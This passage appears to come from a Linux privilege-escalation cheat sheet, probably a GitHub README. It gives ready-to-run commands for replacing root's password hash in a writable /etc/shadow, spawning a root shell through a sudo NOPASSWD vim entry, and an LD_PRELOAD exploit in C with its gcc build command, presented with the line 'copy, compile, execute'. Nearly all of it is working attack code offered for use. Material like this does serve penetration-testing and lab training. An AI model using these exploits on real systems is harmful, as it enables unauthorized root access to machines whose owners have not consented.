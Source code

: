 check whether it is writable or not by the following command 
`ls -la /etc/shadow`

Generate a new password hash with a password of your choice:

`mkpasswd -m sha-512 newpasswordhere`  

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

`su root`

## 3] Escalation By  SUDO

&nbsp;
&nbsp;

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.

```
$ sudo -l
User local_host may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user  `local_host`  can run  `vim`  as  `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling  `sh`.

```
sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```
&nbsp;

### LD_PRELOAD AND NOPASSWD

If  `LD_PRELOAD`  is explicitly defined in the sudoers file use the following exploit code 
 copy -> save -> compile -> execute!!



```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```
 `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
